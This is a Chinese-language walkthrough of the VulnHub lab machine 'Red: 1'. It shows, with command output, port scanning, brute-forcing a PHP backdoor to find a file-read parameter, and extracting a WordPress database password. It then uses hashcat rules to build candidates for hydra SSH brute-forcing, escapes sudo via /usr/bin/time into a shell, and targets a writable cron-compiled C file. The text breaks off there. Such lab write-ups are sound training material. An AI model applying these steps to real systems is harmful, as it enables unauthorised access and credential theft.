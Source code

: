 ```yaml
---
sidebar_position: 1
tags: [Easy, Linux, LFI, 密码破解-账号, SUDO, 定时任务]
title: "Red: 1"
sidebar_label: "Red: 1"
description: 基本就是个废机器, 稍微操作一下就死机
---
```

# Red: 1
## 端口扫描
```bash
jtz@attacker:~/CTF/VulhHub$ nmap -sTCV -p- --min-rate 1000 192.168.1.12
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-17 19:04 CST
Nmap scan report for red (192.168.1.12)
Host is up (0.018s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 8d5365835252c4127249be335dd1e71c (RSA)
|   256 06610a49864364cab00c0f09177b33ba (ECDSA)
|_  256 9b8d90472ac1dc11287d57e08a23b469 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-generator: WordPress 5.8.1
|_http-title: Hacked By Red &#8211; Your site has been Hacked! You\xE2\x80\x99ll neve...
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```
## HTTP - 90
访问页面后发现我们需要将一个域名加入到 host 中, 查看主页内容显示, 我们可以知道这个主机是被黑客入侵我们需要借此来进行反打, 使用相关字典进行扫描, 最终发现一个页面 `NetworkFileManagerPHP.php `
```bash
jtz@attacker:~/CTF/VulhHub$ gobuster dir -u http://redrocks.win/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/CommonBackdoors-PHP.fuzz.txt -x php,txt,html
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://redrocks.win/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/CommonBackdoors-PHP.fuzz.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
2023/12/17 21:09:27 Starting gobuster in directory enumeration mode
===============================================================
/NetworkFileManagerPHP.php (Status: 500) [Size: 0]
Progress: 1683 / 1692 (99.47%)
===============================================================
2023/12/17 21:09:48 Finished
===============================================================
```
经过查看发现这个程序应该是读取文件的, 估计存在 LFI 漏洞, 我们可以进行扫描, 建议扫描的时候悠点, 这机器死的速度太快了, 经过扫描可以发现一个参数 key 我们可以借此来读取文件, 之后我读取了这个后门文件看看有没有什么发现, 但是我在其中发现了一句使用 base64 加密的内容其解密后为
```bash
That password alone won't help you! Hashcat says rules are rules
```
这告诉我们对应的密码是基于某种规则生成, 根据这个内容是 Base64 加密得到的, 我们可以退则这是一个 base64 规则生成的密码, 我们可能唯一获取的密码就是一个数据库配置文件的密码了,读取这个文件

```bash
/** MySQL database username */
define( 'DB_USER', 'john' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3v_m4lwh3r3_k1nG!!' );
```

这是其中一个用户, 对应就是使用 `R3v_m4lwh3r3_k1nG!!` 产生一些密码规则借此来爆破 john 用户

```bash
jtz@attacker:~/CTF/VulhHub$ hashcat --stdout pass.txt -r /usr/share/hashcat/rules/best64.rule > passlist.txt
jtz@attacker:~/CTF/VulhHub$ wc -l passlist.txt 
77 passlist.txt
```

## 后渗透
### john
使用上面得到的密码来进行暴力破解, 我们可以得到一个密码, 自此进行登陆, 同时还有一个问题就是这个账户密码会定时修改, 因此需要写后门

```bash
jtz@attacker:~/CTF/VulhHub$ hydra -l john -P passlist.txt ssh://192.168.1.6
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-17 21:55:41
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:1/p:77), ~5 tries per task
[DATA] attacking ssh://192.168.1.6:22/
[22][ssh] host: 192.168.1.6   login: john   password: R3v_m4lwh3r3_k1nG!!00
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-17 21:55:45
jtz@attacker:~/CTF/VulhHub$ ssh john@192.168.1.6
john@192.168.1.6's password: 
Permission denied, please try again.
john@192.168.1.6's password: 
Last login: Wed Oct 27 02:05:25 2021 from 10.0.2.15
john@red:~$ id
uid=1000(john) gid=1000(john) groups=1000(john)
```

### john —> ippsec

我发现 john 用户可以使用 ippsec 身份运行一个程序, 而恰巧对应的程序可以进行提权

```bash
john@red:~$ sudo -l
Matching Defaults entries for john on red:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on red:
    (ippsec) NOPASSWD: /usr/bin/time
john@red:~$ sudo -u ippsec /usr/bin/time /bin/sh
$ id
uid=1001(ippsec) gid=1001(ippsec) groups=1001(ippsec)
```

### ippsec —> root
之后我上传了 pspy 发现了一些奇怪的定时任务
![20240522162100](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240522162100.png)
之后我查看这个目录, 发现其需要 ippsec 用户才可以访问, 我们可以借助 ippsec 用户组的身份来修改这个 `supersecretfileuc.c` 文件使其实现提权操作
```bash
$ ls -al
total 32
drwxrwx--- 2 root     ippsec    4096 Dec 17 14:10 .
drwxr-xr-x 6 www-data www-data  4096 Oct 31  2021 ..
-rwxr-xr-x 1 root     root     16712 Dec 17 14:10 rev
-rw-r--r-- 1 root     root       123 Oct 31  2021 supersecretfileuc.c
$ cat sYou really think you can take down my machine Blue?

$ vim -h
vim: invalid option -- 'h'
Try 'vim --help' for more information.
$ vim su*       
#include <stdio.h>
  
int main()
{
  
    // prints hello world
    printf("Get out of here Blue!\n");
  
    return 0;
}
```
![20240522162135](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240522162135.png)